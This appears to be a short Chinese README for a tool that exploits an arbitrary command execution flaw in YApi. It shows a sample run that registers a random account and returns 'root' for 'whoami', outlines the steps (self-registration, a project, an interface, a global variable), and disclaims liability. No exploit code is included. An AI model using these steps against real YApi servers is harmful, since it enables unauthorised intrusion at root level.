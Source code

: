 # Yapi任意任意命令执行漏洞利用工具
      Yapi任意任意命令执行漏洞  By j2ekim
      url: http://x.x.x.x/
      command:whoami
      注册成功
      用户名：CwO8pWg0@O0S86b.com密码：1Oip7rzqZz
      root

##   编写思路
   每次输入网址先判断是否开启注册，
   生成随机账户名和密码
   注册，添加项目，添加接口，设置全局变量
   详细请百度参考复现文章
   
## 使用需知
由于传播、利用此工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，作者不为此承担任何责任。

